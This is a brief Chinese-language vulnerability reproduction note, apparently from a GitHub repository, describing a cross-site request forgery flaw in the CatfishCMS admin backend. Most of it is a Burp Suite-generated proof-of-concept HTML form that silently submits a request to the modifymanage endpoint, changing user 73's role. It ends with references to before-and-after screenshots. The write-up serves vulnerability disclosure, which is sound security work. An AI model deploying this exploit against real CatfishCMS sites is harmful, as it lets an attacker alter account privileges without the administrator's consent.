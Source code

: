 # CatfishCMS后台csrf

**复现过程**

首先需要登录后台


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
  <form action="http://url/index.php/admin/index/modifymanage.html?c=73" method="POST">
      <input type="hidden" name="uid" value="73" />
      <input type="hidden" name="juese" value="3" />
      <input type="hidden" name="verification" value="05f176843c20e12c1364e80b9869ac17" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

修改前

![](images/15889446053876.png)


修改后

![](images/15889446138818.png)
